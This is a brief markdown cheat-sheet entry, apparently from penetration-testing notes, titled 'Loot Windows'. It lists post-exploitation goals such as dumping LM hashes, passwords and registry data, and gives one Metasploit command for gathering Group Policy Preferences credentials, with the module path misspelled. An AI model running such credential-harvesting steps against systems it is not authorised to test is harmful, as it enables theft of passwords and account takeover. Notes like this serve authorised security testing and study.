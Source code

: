 # Loot Windows

## Overview

* loot registry
* LM hashes
* WCE
* tcp-dump
* search for interesting files
* dump passwords and hashes

## Metasploit

```bash
use post/windows/gather/creditentials/gpp
```

